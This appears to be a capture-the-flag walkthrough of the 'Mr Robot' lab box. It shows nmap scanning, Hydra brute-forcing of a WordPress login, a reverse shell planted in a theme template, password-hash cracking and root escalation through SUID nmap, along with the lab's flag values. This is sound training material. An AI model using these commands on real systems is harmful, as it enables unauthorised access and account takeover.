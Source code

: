 # Mr Robot
Find the 3 hidden flags

## Solution

ip=10.10.231.112
First, we scan the box using nmap

```
> nmap -sC -sV 10.10.231.112 -oN nmap-initial

Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-16 23:57 CET
Nmap scan report for 10.10.231.112
Host is up (0.046s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
```

We know that port 80 is open. Let's visit it.  
Entering http://10.10.231.112 we have a terminal. 

As a first step we study the different commands the terminal provides. 
Using the _join_ command we then get asked to provide an email. We can set up a temporary mail and give it. Seems a void feature, no messages are sent to the provided email.  
We start looking in other directions.


The name of the box is Mr Robot. Visiting the robot.txt file we get 
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
Now with http://10.10.231.112/key-1-of-3.txt we get the first flag
```
073403c8a58a1f80d943455fb30724b9
```

Visiting https.//10.10.231.112/fsocity.dic we can download a txt file. Presumibely, it's a dictionary file we can use to bruteforce some logins

Running gobuster to scan hidden directories
```
gobuster dir -u http://10.10.231.112 -t 64 -w /usr/share/wordlists/rockyou.txt
```

I continued the challenge on a second day. New ip=10.10.33.211

In http://10.10.33.111/wp-login.php we have a login form. We try to login as admin, bruteforcing the password using using Hydra and the fsocity.dic as wordlist file but it doesn't work.  
So, first we notice that Wordpress gives indication whether the username is correct or not. We use the provided dictionary to bruteforce the login name. Namely:
```
> hydra -L fsocity.dic -p password 10.10.33.211 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:invalid username' 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-21 22:26:25
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.33.211:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:invalid username
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[80][http-post-form] host: 10.10.33.211   login: Elliot   password: password
'''

We know that a user Elliot exists. Now we can bruteforce the password:
> hydra -l Elliot -P fsocity.dic 10.10.33.211 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username'

Once we get the password we can log in.

Once logged in, we can gain access to the underlying host by uploading a reverse shell in Appearence -> Editor.  
Uploading the code in the 404.php, the script will be executed every time the 404 page is triggered.  
We have now the reverse shell.

```
listening on [any] 1234 ...
10.10.37.252: inverse host lookup failed: Unknown host
connect to [10.9.80.140] from (UNKNOWN) [10.10.37.252] 51988
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 18:24:06 up  1:05,  0 users,  load average: 0.00, 0.01, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

We can stabilize the shell using python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```


Navigating in the home of robot, we get a username and hash:
```
daemon@linux:/home/robot$ cat pass
cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We crack it using the CraskStation and we get a password.  
We can use the password to login in robot account.

In /home/robot we also find the second flag.
One flag remaining now.


We enumerate the binaries with SUID, discarding the errors (Permission Denied):
```
find / -user root -perm -4000 2>/dev/null
```

In GTFObins we find how to exploit this misconfiguration and become root.
```
nmap --interactive
nmap> !sh
```

Navigating in /root we find the third and last key.
